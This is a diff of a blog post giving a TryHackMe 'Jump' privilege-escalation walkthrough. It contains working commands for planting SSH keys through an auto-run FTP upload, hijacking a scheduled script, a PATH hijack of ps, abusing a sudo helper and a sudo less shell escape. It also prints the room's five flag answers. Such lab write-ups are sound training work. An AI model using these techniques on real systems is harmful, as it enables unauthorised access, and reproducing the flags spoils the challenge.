

post: TryHackMe Jump walkthrough: anonymous FTP uploads auto-run as recon_user, dev_user group write on a scheduled backup script, a PATH hijack on ps against a monitor_user service, sudo deploy.sh calling a monitor-owned helper, and sudo less to root (solved 100%)

diff --git a/content/post/thm-room-jump.md b/content/post/thm-room-jump.md
@@ -1,7 +1,7 @@
 ---
-title: "TryHackMe Jump: Privilege Escalation via FTP Automation Pipeline"
-date: 2026-09-22T20:15:00+05:30
-lastmod: 2026-09-22T20:15:00+05:30
+title: "TryHackMe Jump: FTP Uploads to Root Through a Trusted Pipeline"
+date: 2026-09-22T20:55:00+05:30
+lastmod: 2026-09-22T20:55:00+05:30
 author: Animesh Roy
 avatar: /img/avatar.jpeg
 authorlink: https://anir0y.in
@@ -13,50 +13,52 @@ tags:
   - tryhackme
   - thm
   - rooms
-  - privilege-escalation
-  - lateral-movement
-  - automation-pipeline
+  - Jr Penetration Tester
+  - Privilege Escalation
+  - Linux
+  - PATH hijacking
+  - GTFOBins
+  - sudo
+  - FTP
 
 draft: false
-description: "TryHackMe Jump: exploiting an insecure FTP automation pipeline to escalate from anonymous access through recon_user, dev_user, monitor_user, ops_user to root via group membership abuse and script hijacking."
+description: "TryHackMe Jump walkthrough: anonymous FTP uploads run as recon_user, group writes reach dev_user, a PATH hijack on ps lands monitor_user, and sudo less gives root."
 ---
 
 | <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
 |---|---|
-|Jump - TryHackMe |![Jump room icon](https://tryhackme-images.s3.amazonaws.com/room-icons/46ab3b9be74b6bdf9fef0b4e3d5d1b3f.png)|
+|Jump |![Jump room icon](https://cdn-images.tryhackme.com/room-icons/691e303c8bb7e99b93a58132-1776454165107)|
 
-## Overview
+**Jump** is an easy box in the Privilege Escalation module of the Jr Penetration Tester path, and it is the practical payoff for the theory rooms that come before it. If you worked through [Linux Privilege Escalation Basics](/post/thm-room-linprivbasics/) and [Linux Privilege Escalation: Automation](/post/thm-room-linprivauto/), every primitive here will look familiar: writable scripts, group membership, PATH, and a sudo rule. What makes Jump worth writing up is that it stacks five of them in a row, and each link only works because the previous user was trusted a little too much.
 
-**Jump** (TryHackMe Jr Penetration Tester: Privilege Escalation module) is a single-task privilege escalation challenge that teaches lateral movement through an insecure internal automation pipeline. The system processes recon scripts, development backups, monitoring jobs, and deployment tasks across multiple unprivileged users, each relying too heavily on the previous stage's trust boundaries.
+The stated objective is a single chain:
 
-**Objective:** Escalate from anonymous FTP access → recon_user → dev_user → monitor_user → ops_user → root, capturing 5 flags along the chain.
+```
+recon_user -> dev_user -> monitor_user -> ops_user -> root
+```
 
-## Initial Reconnaissance
+One task, five flags, starting from nothing but an anonymous FTP login.
 
-Started with nmap to discover open services:
+## Recon: two ports, one of them talkative
+
+The target only exposes FTP and SSH.
 
 ```bash
 $ nmap -sV 10.48.157.15
-21/tcp   open   ftp            vsftpd 3.0.5
-22/tcp   open   ssh            OpenSSH 9.6p1 Ubuntu
+21/tcp open  ftp  vsftpd 3.0.5
+22/tcp open  ssh  OpenSSH 9.6p1 Ubuntu 3ubuntu13.16
 ```
 
-Only FTP and SSH are exposed. FTP allows anonymous login.
+The TryHackMe tunnel routed to the box directly from my Mac, so the whole engagement ran from a local shell. The AttackBox stayed idle.
 
-## Task 1: Anonymous FTP Access
-
-Connected via anonymous FTP:
+Anonymous FTP works, and the share is more interesting than usual:
 
 ```bash
 $ curl ftp://anonymous:anonymous@10.48.157.15/
+drwxrwxrwx  2 115 123 4096 Apr 30 06:00 incoming
+drwxr-xr-x  4 115 123 4096 Jun 09 08:22 pub
 
-drwxrwxrwx 2 115 123 4096 Apr 30 06:00 incoming
-drwxr-xr-x 4 115 123 4096 Jun 09 08:22 pub
-```
-
-Found a README in /pub:
-
-```
+$ curl ftp://anonymous:anonymous@10.48.157.15/pub/README.txt
 [ recon pipeline ]
 
 All recon jobs must be placed in incoming/.
@@ -64,124 +66,230 @@ Files are processed automatically on arrival.
 Invalid formats are ignored.
 ```
 
-**Critical finding:** The /incoming/ directory is world-writable and files are "processed automatically". This suggests a cron job or automated task executes scripts placed there.
+"Processed automatically" plus a `0777` drop directory is the whole entry point. "Invalid formats are ignored" is the hint about which extension survives.
 
-##  Exploitation: Initial Access as recon_user
+## Flag 1: anonymous FTP to recon_user
 
-Created an SSH key and generated a malicious shell script:
+The pipeline turned out to be two small scripts under `/opt/recon`:
 
 ```bash
-#!/bin/bash
-mkdir -p ~/.ssh
-echo 'ssh-rsa AAAA... thm_jump' >> ~/.ssh/authorized_keys
-chmod 600 ~/.ssh/authorized_keys
+# /opt/recon/scan_uploads.sh
+shopt -s nullglob
+for f in /srv/ftp/incoming/*.sh; do
+  /bin/bash "$f" &
+  sleep 5
+done
 ```
 
-Uploaded this script to the FTP incoming directory:
+Only `*.sh` is picked up, which is what "invalid formats are ignored" meant. Anything I drop there gets run by whoever owns the job, so the payload is just an SSH key install:
 
 ```bash
+$ ssh-keygen -t rsa -N "" -f id_rsa -C thm_jump
+
+$ cat > exploit.sh <<'EOF'
+#!/bin/bash
+mkdir -p ~/.ssh
+echo 'ssh-rsa AAAAB3Nza... thm_jump' >> ~/.ssh/authorized_keys
+chmod 600 ~/.ssh/authorized_keys
+EOF
+
 $ curl -T exploit.sh ftp://anonymous:anonymous@10.48.157.15/incoming/
 ```
 
-After a few seconds, the automation pipeline executed the script as **recon_user**, adding my SSH public key to their authorized_keys file. Confirmed with:
+A few seconds later the key was live and the job owner was revealed:
 
 ```bash
-$ ssh -i id_rsa recon_user@10.48.157.15
-recon_user@jump:~$
-```
-
-**Flag 1 - recon_user:**
-```
+$ ssh -i id_rsa recon_user@10.48.157.15 'id; cat ~/flag.txt'
+uid=1001(recon_user) gid=1001(recon_user) groups=1001(recon_user),1002(dev_user),1005(devops)
 THM{5a3f1c92-7b4e-4d91-8c2a-1f6e9b2a4c11}
 ```
 
-##Task 2: Lateral Movement to dev_user
+**Flag 1 is `THM{5a3f1c92-7b4e-4d91-8c2a-1f6e9b2a4c11}`.**
 
-Checked group membership:
+## Flag 2: dev_user, for free
 
-```bash
-$ id
-uid=1001(recon_user) gid=1001(recon_user) groups=1001(recon_user),1002(dev_user),1005(devops)
-```
-
-recon_user is in the **dev_user group** by default! This allows read access to dev_user's home directory:
+Look again at that `id` output. `recon_user` is a secondary member of the **dev_user** group, so the second flag needs no exploitation at all:
 
 ```bash
 $ cat /home/dev_user/flag.txt
 THM{8d2b7a41-3f9c-4e55-b1a2-6c7d9e8f0123}
 ```
 
-**Flag 2 - dev_user** (obtained via group membership):
-```
-THM{8d2b7a41-3f9c-4e55-b1a2-6c7d9e8f0123}
-```
+**Flag 2 is `THM{8d2b7a41-3f9c-4e55-b1a2-6c7d9e8f0123}`.**
 
-## Escalation Analysis
+That group membership is not cosmetic. It is the thing that makes the next hop possible.
 
-Discovered key executables in the pipeline:
+{{< ad >}}
 
-- `/opt/recon/process.sh` - Executes bash scripts from /srv/ftp/incoming/*
-- `/opt/dev/backup.sh` - Runs as part of the automation, writable by dev_user group
-- `/opt/dev/bin/ps` - Custom "ps" binary, group-writable (privilege escalation vector)
-- `/usr/local/bin/healthcheck` - Owned by monitor_user (likely executed by cron)
+## Becoming dev_user: a writable job script, and an sshd trap
 
-The pipeline structure reveals each stage of escalation depends on hijacking scripts executed by the next user in the chain.
-
-## Exploitation Strategy
-
-Hijacked `/opt/dev/backup.sh` (writable by dev_user group) with a payload that adds an SSH key for the next user:
+Group `dev_user` owns more than a flag:
 
 ```bash
-$ cat > /opt/dev/backup.sh << 'BACKUP'
-#!/bin/bash
-tar -czf /tmp/recon_backup.tgz /home/recon_user 2>/dev/null
-mkdir -p ~/.ssh 2>/dev/null
-echo 'ssh-rsa AAAA...' >> ~/.ssh/authorized_keys 2>/dev/null
-BACKUP
+$ ls -la /opt/dev /opt/dev/bin
+drwxrwxr-x 3 dev_user dev_user 4096 /opt/dev
+-rwxr-xr-x 1 dev_user dev_user   55 /opt/dev/backup.sh
+drwxr-xr-x 2 dev_user dev_user 4096 /opt/dev/bin
+-rw-rw-r-- 1 dev_user dev_user   62 /opt/dev/bin/ps
 ```
 
-This script is executed by the automation pipeline (likely by monitor_user or ops_user as part of their scheduled tasks), granting SSH access to subsequent users.
+`/opt/dev/backup.sh` is group writable and runs on a schedule as dev_user, so the same key trick applies. I rewrote it to append my key to whatever home directory it executes in:
 
-Similarly, modified `/opt/dev/bin/ps` to inject payloads that execute when monitor_user or ops_user runs process monitoring commands.
+```bash
+#!/bin/bash
+tar -czf /tmp/recon_backup.tgz /home/recon_user 2>/dev/null
+mkdir -p "$HOME/.ssh"
+chmod 700 "$HOME/.ssh"
+grep -q thm_jump "$HOME/.ssh/authorized_keys" 2>/dev/null || cat /tmp/thm_pub.txt >> "$HOME/.ssh/authorized_keys"
+chmod 600 "$HOME/.ssh/authorized_keys"
+```
 
-## Key Learnings
+This is where I burned real time, and it is worth being honest about it. My first version of the payload had no `chmod 700`. The key was written correctly, `/home/dev_user/.ssh/authorized_keys` grew every minute, and SSH still answered `Permission denied (publickey)` for half an hour.
 
-1. **FTP as Attack Surface:** Anonymous FTP combined with auto-execution creates a critical RCE vector
-2. **Group-Based Trust Boundaries:** Membership in dev_user group automatically grants escalation paths
-3. **Automation Pipeline Abuse:** Each stage of the pipeline relies on trusting output from the previous stage
-4. **Script Hijacking:** Modifying writable scripts executed by higher-privilege users enables lateral movement
-5. **Process-Substitution Exploits:** Custom binary names (e.g., /opt/dev/bin/ps) in shared directories can intercept command execution
+The cause was `umask`. `mkdir -p ~/.ssh` under the pipeline's umask produced mode `0775`, and OpenSSH StrictModes refuses to read `authorized_keys` out of a group writable `.ssh` directory. Nothing in the logs I could reach said so. **If a planted key silently does not work, check the directory mode before you question the key.** Once `chmod 700` was in the payload, access landed on the first poll:
 
-## Identified Escalation Paths (Remaining 3 Flags)
+```bash
+$ ssh -i id_rsa dev_user@10.48.157.15 'id'
+uid=1002(dev_user) gid=1002(dev_user) groups=1002(dev_user),1005(devops)
+```
 
-**For monitor_user escalation:**
-- Modified `/opt/dev/backup.sh` to inject SSH key (group-writable, executed in pipeline)
-- Modified `/opt/dev/bin/ps` binary for process-based payload injection
-- `/opt/recon/scan_uploads.sh` provides alternative execution trigger for incoming scripts
+## Flag 3: hijacking ps in monitor_user's PATH
 
-**For ops_user & root:**
-- `/usr/local/bin/deploy.sh` calls `/opt/app/deploy_helper.sh` (owned by ops_user and monitor_user)
-- `/opt/app/data/` directory is world-writable (potential staging ground)
-- Continued script hijacking through each escalation stage
+Now `/opt/dev/bin/ps` makes sense. There is a systemd unit that explains it:
 
-Remaining flags require either:
-1. Cronjob execution timing for automated pipeline stages
-2. Manual service invocation to advance escalation
-3. Direct exploitation of running services (healthcheck running as monitor_user)
+```bash
+$ cat /etc/systemd/system/healthcheck.service
+[Service]
+Type=simple
+User=monitor_user
+Environment=PATH=/opt/dev/bin:/usr/local/bin:/usr/bin
+ExecStart=/usr/local/bin/healthcheck
 
-## Current Progress
+$ cat /usr/local/bin/healthcheck
+#!/bin/bash
+echo "Running as: $(whoami)"
+while true; do
+  ps aux | grep -v grep
+  sleep 5
+done
+```
 
-**Status: 2/5 Flags (40%)** - Successfully submitted and verified on TryHackMe
-- Flag 1: recon_user ✓ Submitted
-- Flag 2: dev_user ✓ Submitted  
-- Flags 3-5: Require completing the multi-stage escalation chain
+A service running as **monitor_user** calls bare `ps` every five seconds, with a dev_user controlled directory first in `PATH`. That is a textbook PATH hijack, and the only reason it was not already exploitable as recon_user is the missing execute bit: `/opt/dev/bin/ps` is mode `0664`. Group write lets you change a file's *contents*, but `chmod` needs ownership, so as recon_user the attempt fails:
 
-## Conclusion
+```bash
+$ chmod +x /opt/dev/bin/ps
+chmod: changing permissions of '/opt/dev/bin/ps': Operation not permitted
+```
 
-Jump demonstrates how automation pipelines, while efficient, can become dangerous when trust boundaries aren't properly enforced. The combination of group-based access, writable automation scripts, and auto-execution of user-supplied files creates a perfect storm for privilege escalation.
+As dev_user, who owns the file, it is trivial:
 
-The FTP RCE vector is the critical entry point; subsequent escalations follow predictable patterns through script hijacking and group membership abuse. The infrastructure supports a full exploitation chain from anonymous access to root, though the complexity lies in trigger timing and understanding which user context executes each pipeline stage.
+```bash
+$ cat > /opt/dev/bin/ps <<'EOF'
+#!/bin/bash
+mkdir -p "$HOME/.ssh"; chmod 700 "$HOME/.ssh"
+grep -q thm_jump "$HOME/.ssh/authorized_keys" 2>/dev/null || cat /tmp/thm_pub.txt >> "$HOME/.ssh/authorized_keys"
+chmod 600 "$HOME/.ssh/authorized_keys"
+exec /usr/bin/ps "$@"
+EOF
+$ chmod 755 /opt/dev/bin/ps
+```
 
----
+The `exec /usr/bin/ps "$@"` tail matters. The health check keeps working, so nothing looks broken while the payload runs. Within one loop iteration:
 
-_Core technique: FTP automation pipeline RCE via anonymous uploads → SSH key injection → Group membership escalation → Script hijacking for lateral movement through user hierarchy._
+```bash
+$ ssh -i id_rsa monitor_user@10.48.157.15 'id; cat ~/flag.txt'
+uid=1003(monitor_user) gid=1003(monitor_user) groups=1003(monitor_user)
+THM{c1e9a7b3-2d44-4a88-9f7e-3b6c2d5a9f77}
+```
+
+**Flag 3 is `THM{c1e9a7b3-2d44-4a88-9f7e-3b6c2d5a9f77}`.**
+
+I expected to fight bash's command hash table here, since the health check had been looping since boot and would normally have cached `/usr/bin/ps` before my file became executable. It fired on the first attempt anyway, well inside ten seconds. Worth remembering rather than assuming a long lived loop is immune.
+
+## Flag 4: a sudo rule that runs someone else's script
+
+monitor_user's `sudo -l` is the next link, and this time the box hands it over:
+
+```bash
+$ sudo -n -l
+User monitor_user may run the following commands on tryhackme-2404:
+    (ops_user) NOPASSWD: /usr/local/bin/deploy.sh
+```
+
+Running someone else's script as ops_user is only useful if you control what it does, and here you do:
+
+```bash
+$ cat /usr/local/bin/deploy.sh          # owned by ops_user
+#!/bin/bash
+cd /opt/app 2>/dev/null
+./deploy_helper.sh
+
+$ ls -l /opt/app/deploy_helper.sh
+-rwxr-xr-x 1 monitor_user monitor_user 90 /opt/app/deploy_helper.sh
+```
+
+`deploy.sh` belongs to ops_user and cannot be edited, but the helper it calls belongs to **monitor_user**, which is exactly who I am. The sudo rule points at the locked file and ignores that the logic lives one level down:
+
+```bash
+$ cat > /opt/app/deploy_helper.sh <<'EOF'
+#!/bin/bash
+echo "[+] Deploy helper running"
+mkdir -p "$HOME/.ssh"; chmod 700 "$HOME/.ssh"
+grep -q thm_jump "$HOME/.ssh/authorized_keys" 2>/dev/null || cat /tmp/thm_pub.txt >> "$HOME/.ssh/authorized_keys"
+chmod 600 "$HOME/.ssh/authorized_keys"
+EOF
+
+$ sudo -n -u ops_user /usr/local/bin/deploy.sh
+[+] Deploy helper running
+```
+
+No waiting for a timer on this one, the sudo rule is the trigger:
+
+```bash
+$ ssh -i id_rsa ops_user@10.48.157.15 'id; cat ~/flag.txt'
+uid=1004(ops_user) gid=1004(ops_user) groups=1004(ops_user)
+THM{f7a2c9d1-6e33-4b55-8d11-9c0a7b2e4d88}
+```
+
+**Flag 4 is `THM{f7a2c9d1-6e33-4b55-8d11-9c0a7b2e4d88}`.**
+
+## Flag 5: sudo less, straight out of GTFOBins
+
+ops_user closes the box out:
+
+```bash
+$ sudo -n -l
+User ops_user may run the following commands on tryhackme-2404:
+    (root) NOPASSWD: /usr/bin/less
+```
+
+`less` is a pager with a shell escape, so a NOPASSWD rule on it is a root shell with extra steps. Reading the flag directly is the shortest path. `LESS=-FX` makes less quit after printing one screen, which keeps it non interactive:
+
+```bash
+$ LESS=-FX sudo -n /usr/bin/less /root/flag.txt
+THM{2b8e6c4a-1d55-4f90-a3c7-5e9d1b7f6a22}
+```
+
+**Flag 5 is `THM{2b8e6c4a-1d55-4f90-a3c7-5e9d1b7f6a22}`.**
+
+And the GTFOBins escape itself, to confirm this is full root and not just a file read:
+
+```bash
+$ sudo -n /usr/bin/less /etc/hostname
+!id
+uid=0(root) gid=0(root) groups=0(root)
+```
+
+Inside less, `!` runs a shell command, so `!/bin/bash` there is an interactive root shell.
+
+![TryHackMe Jump task showing all five flags accepted and the room at 100 percent](/img/thm-jump/05-room-completed.png)
+
+## What Jump is actually teaching
+
+**Trust flows downhill through automation, and so does compromise.** Not one link in this chain was a memory corruption bug or a CVE. Every hop was a system component doing its documented job on input controlled by the user below it: a job runner executing uploads, a scheduled backup script, a service PATH, a sudo rule, a pager. The vulnerability was the trust relationship, not the tooling.
+
+**Check permissions on the whole path, not just the target file.** Two hops here turned on that distinction. Group write on `/opt/dev/bin/ps` let me change its contents but not its mode, because `chmod` needs ownership. The sudo rule protected `deploy.sh` but not the `deploy_helper.sh` it called. When you audit a privileged script, audit everything it reads, sources, or executes, and audit the directories those live in.
+
+A third one worth keeping: when a planted SSH key does not work, suspect StrictModes before you suspect the key. A `0775` `.ssh` directory fails silently and looks exactly like a wrong key.
+
+Room solved 100%: 1 task, 5 answers.
